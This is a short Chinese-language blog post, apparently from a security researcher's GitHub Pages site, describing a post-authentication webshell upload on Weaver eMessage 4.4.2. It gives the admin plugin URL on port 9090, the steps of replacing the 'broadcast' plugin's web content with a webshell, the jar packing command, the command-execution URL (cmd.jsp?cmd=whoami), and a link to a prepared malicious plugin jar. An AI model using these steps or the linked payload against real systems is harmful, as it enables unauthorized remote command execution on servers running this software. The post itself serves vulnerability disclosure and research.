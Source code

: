 ```yaml
---
layout: post
title:  "2018-10-27-泛微emessage4.4.2后台getshell"
---
```

# 2018-10-27-泛微emessage4.4.2后台getshell

* 需登陆后台

漏洞地址：
http://ip:9090/plugin-admin.jsp
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/1.jpg)<br />
上传的插件可以在http://ip:9090/plugins/插件名/ 访问到
我们使用broadcast这个插件，替换web目录下的内容为我们的webshell
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/2.jpg)<br />
使用jar -cvfM0 broadcast ./命令打包成jar进行上传
访问http://ip:9090/plugins/broadcast/cmd.jsp?cmd=whoami
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/3.jpg)<br />


![broadcast.jar](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/broadcast.jar)<br />